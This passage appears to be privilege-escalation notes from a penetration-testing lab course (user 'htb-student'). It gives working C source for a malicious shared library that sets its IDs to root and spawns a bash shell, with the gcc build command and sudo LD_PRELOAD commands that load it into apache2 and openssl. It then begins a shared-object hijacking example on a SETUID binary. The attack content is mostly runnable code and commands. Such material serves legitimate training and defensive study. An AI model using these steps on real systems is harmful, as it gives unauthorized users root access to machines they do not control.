 ```
$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```
set the LD_PRELOAD var to the malcious library /tmp/root.so
```
$ sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```

**another example**
```shell
$ sudo -l
Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```


```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

```

```
$ gcc -fPIC -shared -o root.so root.c -nostartfiles
```

```shell
$ sudo LD_PRELOAD=/tmp/root.so openssl
```
### Shared Object Hijacking

Consider the following SETUID binary
```shell
$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

check used libraries 
```shell
$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```
